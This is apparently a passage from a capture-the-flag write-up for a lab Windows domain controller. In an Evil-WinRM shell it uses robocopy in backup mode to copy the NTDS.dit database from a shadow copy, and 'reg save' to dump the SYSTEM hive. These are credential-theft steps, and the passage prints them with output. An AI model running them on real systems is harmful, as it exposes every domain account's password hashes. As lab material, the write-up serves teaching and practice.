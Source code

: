 ![diskshadow.png](../assets/blackfield_assets/diskshadow.png)

We can now copy the ntds file back to our TEMP directory using robocopy:

```text
*Evil-WinRM* PS C:\TEMP> robocopy /b z:\windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Friday, July 28, 2023 6:04:29 PM
   Source : z:\windows\ntds\
     Dest : C:\TEMP\

    Files : ntds.dit
```
We'll also need to copy the SYSTEM registry file, which we can grab with:

```text
reg save hklm\system SYSTEM
```

![system.png](../assets/blackfield_assets/system.png)